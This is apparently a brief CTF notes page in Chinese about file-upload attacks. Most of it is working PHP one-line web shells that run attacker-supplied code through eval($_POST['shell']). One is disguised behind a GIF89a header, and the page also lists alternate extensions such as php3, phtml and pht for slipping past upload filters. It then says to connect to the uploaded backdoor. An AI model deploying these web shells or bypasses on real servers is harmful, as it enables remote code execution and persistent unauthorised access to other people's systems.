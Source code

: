 ```yaml
---
title: upload一句话木马
date: 2024-01-02 16:27:08
tags:
categories: ctf
---
```


GIF89a
<script language="php">eval($_POST['shell']);</script>

<?php phpinfo(); @eval($_POST['shell']); ?>

文件绕过的格式也有php,php3,php4,php5,phtml.pht

再去连上传木马的位置进入后门

